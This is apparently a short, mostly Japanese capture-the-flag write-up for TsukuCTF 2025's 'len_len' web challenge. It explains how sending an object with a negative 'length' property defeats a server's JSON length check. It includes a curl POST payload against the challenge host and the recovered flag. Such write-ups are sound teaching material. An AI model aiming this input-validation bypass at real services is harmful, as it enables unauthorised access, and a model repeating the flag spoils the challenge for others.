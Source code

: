 # len_len

"length".length is 6 ?
curl http://challs.tsukuctf.org:28888

## solution

server.jsのchall()関数に注目する
```
const sanitized = str.replaceAll(" ", "");
if (sanitized.length < 10) {
  return `error: no flag for you. sanitized string is ${sanitized}, length is ${sanitized.length.toString()}`;
}
const array = JSON.parse(sanitized);
if (array.length < 0) {
  return FLAG;
}
```

flagを返す条件は

- sanitized.length >= 10
- JSON.parse(sanitized).length < 0

Q,JSON.parse(sanitized).length < 0 を満たすには

`{"length": -1}`のようなJSONはJavaScriptの配列ではなく、ただのオブジェクトです。そのため .length < 0 という条件は満たせません。でも、配列っぽく見せかける手法

.length は数値として比較される、つまり、配列じゃなくても .length があるならOK。
```
const obj = JSON.parse('{"length": -1}');
if (obj.length < 0) {
  console.log("FLAG!");
}
```


Payload
```
curl -X POST -d 'array={"length":-1}' http://challs.tsukuctf.org:28888
```

出力
```
/TsukuCTF_2025$ curl -X POST -d 'array={"length":-1}' http://challs.tsukuctf.org:28888
TsukuCTF25{l4n_l1n_lun_l4n_l0n}
```

## flag

`TsukuCTF25{l4n_l1n_lun_l4n_l0n}`